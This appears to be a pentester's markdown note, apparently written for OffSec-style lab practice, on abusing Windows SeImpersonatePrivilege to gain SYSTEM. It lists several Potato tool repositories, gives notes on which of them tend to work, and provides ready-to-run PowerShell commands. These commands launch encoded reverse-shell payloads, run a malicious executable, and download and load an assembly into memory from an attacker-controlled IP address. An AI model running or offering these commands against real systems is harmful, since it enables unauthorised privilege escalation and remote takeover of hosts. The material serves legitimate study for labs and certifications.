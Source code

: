 
### Overview
---
``SeImpersonatePrivilege`` rights allow that user to "permit programs that run on behalf of that user to impersonate a client".  Specifically, exploiting this allows us to run commands and programs as SYSTEM.


### Exploitation Example
---
- ``SeImpersonatePrivilege`` rights can be checked by running ``whoami /priv``.

![[Pasted image 20230424122917.png]]

- To exploit this, we need to copy some tools to the victim.  Some common Potatoes exploiting ``SeImpersonatePrivilege`` listed below:
	- https://github.com/tylerdotrar/GodPotatoNet (Self-Plug)
	- https://github.com/BeichenDream/GodPotato
	- https://github.com/itm4n/PrintSpoofer
	- https://github.com/zcgonvh/EfsPotato

- Noteworthy point is that successful execution of some of these tools can depend on what .NET version is installed on the host, what version of Windows is running, etc.  With that said, that means you may have to try a couple different executables.
	- ``PrintSpoofer`` seems to work fairly consistently with OffSec boxes.
	- ``GodPotato`` is the newest entry to the potato family and supposedly works on Windows 8 - Windows 11 AND Windows Server 2012 - 2022.
	- ``GodPotatoNet`` is my personal fork of ``GodPotato`` that does the exact same thing, except the output is cleaner and it was slightly modified to allow for execution from memory instead of needing to write to disk (advanced method).

**Example Usage:**
```powershell
# PrintSpoofer executing a PowerShell reverse shell payload
.\PrintSpoofer.exe -c "powershell -e <encoded_powershell_reverse_shell>"

# EfsPotato executing a malicious executable
.\EfsPotato.exe get_dunked_on.exe

# GodPotato executing a PowerShell reverse shell payload
.\GodPotato.exe -cmd "powershell -e <encoded_powershell_reverse_shell>"

# (Advanced Method) Load GodPotatoNet into memory 
[System.Reflection.Assembly]::Load([System.Net.WebClient]::new().DownloadData("http(s)://<ip_addr>/GodPotatoNet.exe"))
# Execute Command as SYSTEM
[GodPotatoNet.Program]::Main(@('-cmd','<command>'))
```
